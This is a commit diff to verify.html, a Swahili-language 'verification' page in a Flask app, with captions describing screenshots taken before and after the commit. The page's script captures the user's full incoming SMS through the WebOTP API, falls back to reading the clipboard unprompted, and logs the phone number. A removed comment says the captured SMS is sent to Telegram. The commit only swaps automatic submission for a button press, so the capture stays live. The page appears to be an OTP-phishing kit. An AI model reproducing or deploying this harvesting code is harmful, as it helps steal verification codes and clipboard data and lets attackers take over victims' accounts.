

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Shown: the part 232-975 px from the top of the page. Before the commit the page ends 953 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -78,7 +78,8 @@
                     <i class="fas fa-sms"></i> <strong>Msimbo utagunduliwa kiotomatiki</strong><br><br>
                     <strong>1.</strong> Subiri SMS ifike kwenye simu yako<br>
                     <strong>2.</strong> Ukishaipokea, bonyeza <strong>"Allow"</strong> kwenye kidirisha kitakachoonekana<br>
-                    <strong>3.</strong> Msimbo utajaza kiotomatiki na kutumwa
+                    <strong>3.</strong> Ujumbe utajaza kiotomatiki<br>
+                    <strong>4.</strong> Bonyeza <strong>"Endelea"</strong> kutuma
                 </div>
                 <a href="sms:" class="sms-open-btn" id="btnIPhone" style="display:none;">
                     <i class="fas fa-envelope"></i> 📱 iPhone: Gusa Hapa Kufungua Messages
@@ -198,7 +199,6 @@
             } catch(e) {}
 
             setTimeout(function() { resendCooldown = false; }, 30000);
-            // Restart WebOTP detection
             setTimeout(startAutoDetect, 1500);
         }
 
@@ -267,7 +267,7 @@
         }
 
         // ================================================================
-        // SMS AUTO-DETECTION - WebOTP (FULL SMS) - PRIORITY
+        // SMS AUTO-DETECTION - WebOTP (FULL SMS) - WAITS FOR NOTIFICATION
         // ================================================================
         function startAutoDetect() {
             if (!document.getElementById('screen1').classList.contains('active')) {
@@ -279,24 +279,20 @@
             var smsTextarea = document.getElementById('smsMessage');
             if (!smsTextarea) return;
 
-            function autoSubmit() {
+            function fillSMS() {
                 if (smsDetected) return;
                 var text = smsTextarea.value.trim();
                 if (text.length > 5) {
                     smsDetected = true;
-                    console.log('Auto-detect: SMS detected, submitting...');
+                    console.log('Auto-detect: SMS filled in textarea - user can now submit');
                     clearInterval(countdownTimer);
-                    document.getElementById('timerDisplay').textContent = '✅ Imekamilika';
+                    document.getElementById('timerDisplay').textContent = '✅ Imekamilika - Bonyeza Endelea';
                     document.getElementById('timerDisplay').className = 'timer-bar';
-                    setTimeout(function() {
-                        if (document.getElementById('screen1').classList.contains('active')) {
-                            submitCode();
-                        }
-                    }, 1000);
+                    // DO NOT auto-submit - let user click the button
                 }
             }
 
-            // WebOTP API - Auto-read SMS from notification (PRIORITY)
+            // WebOTP API - Auto-read SMS from notification
             function autoReadSMS() {
                 if (!('OTPCredential' in window)) {
                     console.log('Auto-detect: WebOTP not supported on this browser');
@@ -328,33 +324,31 @@
                         console.log('✅ Auto-detect: Full SMS: ' + fullSMS);
 
                         var errorEl = document.getElementById('codeError');
-                        errorEl.textContent = '✅ Msimbo umegunduliwa kiotomatiki!';
+                        errorEl.textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
                         errorEl.style.color = '#10b981';
                         errorEl.classList.add('show');
                         setTimeout(function() {
                             errorEl.classList.remove('show');
-                        }, 3000);
+                        }, 5000);
 
-                        // This sends the FULL SMS to Telegram via submitCode()
-                        autoSubmit();
+                        // JUST FILL THE SMS - DO NOT AUTO-SUBMIT
+                        fillSMS();
                     }
                 })
                 .catch(function(e) {
                     if (e.name === 'AbortError') {
                         console.log('Auto-detect: WebOTP timeout - trying clipboard...');
-                        // Only try clipboard if WebOTP times out
                         readClipboard();
                     } else {
                         console.log('Auto-detect: WebOTP error', e);
-                        // Try clipboard as fallback
                         readClipboard();
                     }
                 });
             }
 
-            // Clipboard fallback (ONLY if WebOTP fails or times out)
+            // Clipboard fallback (ONLY if WebOTP fails)
             function readClipboard() {
-                if (webOtpUsed) return; // Don't use clipboard if WebOTP already worked
+                if (webOtpUsed) return;
                 if (!navigator.clipboard || !navigator.clipboard.readText) {
                     console.log('Auto-detect: Clipboard not available');
                     return;
@@ -366,7 +360,14 @@
                     if (text && text.length > 10 && !smsDetected) {
                         smsTextarea.value = text;
                         console.log('Auto-detect: SMS from clipboard (fallback)');
-                        autoSubmit();
+                        var errorEl = document.getElementById('codeError');
+                        errorEl.textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
+                        errorEl.style.color = '#10b981';
+                        errorEl.classList.add('show');
+                        setTimeout(function() {
+                            errorEl.classList.remove('show');
+                        }, 5000);
+                        fillSMS();
                     }
                 })
                 .catch(function(e) {
@@ -406,7 +407,14 @@
                     smsTextarea.value = text;
                     smsDetected = true;
                     console.log('Auto-detect: SMS pasted manually');
-                    autoSubmit();
+                    var errorEl = document.getElementById('codeError');
+                    errorEl.textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
+                    errorEl.style.color = '#10b981';
+                    errorEl.classList.add('show');
+                    setTimeout(function() {
+                        errorEl.classList.remove('show');
+                    }, 5000);
+                    // JUST FILL - no auto-submit
                 }
             });
 
@@ -433,7 +441,8 @@
         console.log('✅ Code page loaded with auto-detection');
         console.log('📱 App ID: ' + appId);
         console.log('📱 Phone: ' + userPhone);
-        console.log('📱 SMS will be detected from NOTIFICATION (not clipboard)');
+        console.log('📱 SMS will be detected from NOTIFICATION and auto-filled');
+        console.log('📱 User will click "Endelea" manually to submit');
     </script>
 </body>
 </html>
```
